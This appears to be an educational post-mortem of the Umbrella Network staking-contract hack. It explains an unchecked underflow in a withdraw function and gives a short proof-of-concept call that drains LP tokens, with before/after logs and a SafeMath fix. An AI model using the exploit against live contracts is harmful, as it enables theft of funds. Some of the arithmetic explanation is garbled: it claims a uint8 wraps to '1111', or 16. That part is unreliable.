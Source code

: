# Umbrella

![hi Image](../images/umbrella/jo.avif)

## What's Umbrella?
Umbrella Network is a community owned, scalable and cost efficient oracle for the DeFi and blockchain community. 
Umbrella believes a community owned Oracle is not only possible, but essential to creating a truly decentralized financial system.

## Amount stolen
**$700k USD**



## Vulnerability
Underflow


## Analysis

The contract was exploited by underflow, because its numbers are basicly bits, for example if a number has uint8 it wil be 0000 for the number 0, but if you subsctract 1 it will be 1111, which is 16, the same is used in this line `_balances[user] = _balances[user] - amount;` where the balanc eof the user was 0 and it gets deducted by a value. yes the balance wouldn't be a negative number but `2^256 - 50`


### Representation of Numbers:

- In Solidity, numbers are typically represented using two's complement notation.
- For example, in a uint8 (8-bit unsigned integer), the binary representation of 0 is 00000000, and if you subtract 1, it becomes 11111111, which is 255 in decimal.

### Underflow in Solidity:
- In Solidity, unsigned integers cannot become negative through underflow. If you subtract a value from 0, it will wrap around to the maximum value for that data type.
- For example, subtracting 1 from 0 in a uint8 will result in 255.

### 2^256 - 50:
- Solidity uses modular arithmetic, so subtracting 50 from 2^256 will not result in a negative number. It will wrap around and be equivalent to 2^256 - 50.

### SafeMath:
- To prevent underflows and overflows, especially in balance-related calculations, it's recommended to use SafeMath or similar libraries.
- SafeMath includes checks to ensure that arithmetic operations cannot result in underflows or overflows.
So, in your case, if you're using _balances[user] = _balances[user] - amount; without SafeMath, and _balances[user] is 0, subtracting amount will wrap around to the maximum value of the data type, not become negative. However, using SafeMath is a good practice to prevent unintended behavior due to underflows.


### Exploited code

```solidity
      function _withdraw(uint256 amount, address user, address recipient) internal nonReentrant updateReward(user) {
        require(amount != 0, "Cannot withdraw 0");

        // not using safe math, because there is no way to overflow if stake tokens not overflow
        _totalSupply = _totalSupply - amount;
        _balances[user] = _balances[user] - amount;   //<---- underflow here.

        require(stakingTOken.transfer(recipent,amount),"token transfer failed");
      }
```

#### for example:

```
// Initial state
_totalSupply = 100;
_balances[user] = 0;
amount = 50;  // the amount to withdraw 

// After withdrawal
_totalSupply = _totalSupply - amount;  // 100 - 50 = 50
_balances[user] = _balances[user] - amount;  // 0 - 50 = underflow
```


# proof of concept (PoC) 


```solidity
       emit log_named_decimal_uint("Before exploiting, Attacker UniLP Balance", uniLP.balanceOf(address(this)), 18);

       StakingRewards.withdraw(8_792_873_290_680_252_648_282); //without putting any crypto, we can drain out the LP tokens in uniswap pool by underflow.

       emit log_named_decimal_uint("After exploiting, Attacker UniLP Balance", uniLP.balanceOf(address(this)), 18);
```

Logs:
```
  Before exploiting, Attacker UniLP Balance: 0.000000000000000000
  After exploiting, Attacker UniLP Balance: 8792.873290680252648282
```


# Solution

The method `_withdraw` should check wether the user has enough balance, and/or to prevent underflow it can use the `safe math` library using `.sub` instead of a `-` sign

```solidity
  function _withdraw(uint256 amount, address user, address recipient) internal nonReentrant {
        require(amount != 0, "Cannot withdraw 0");
        require(_balances[user] >= amount, "Insufficient balance for withdrawal");

        // Use safe math to prevent underflow
        _totalSupply = _totalSupply.sub(amount);
        _balances[user] = _balances[user].sub(amount);

        require(stakingTOken.transfer(recipent,amount),"token transfer failed");
    }

```


# Summary

Underflows are extremely common in smart contracts and they should be prevented by the safemath library 
especially in methods involving transactions, to safeguard against underflows. While it may introduce 
additional gas costs, the security benefits far outweigh the risks associated with potential vulnerabilities 



**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Umbrella_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
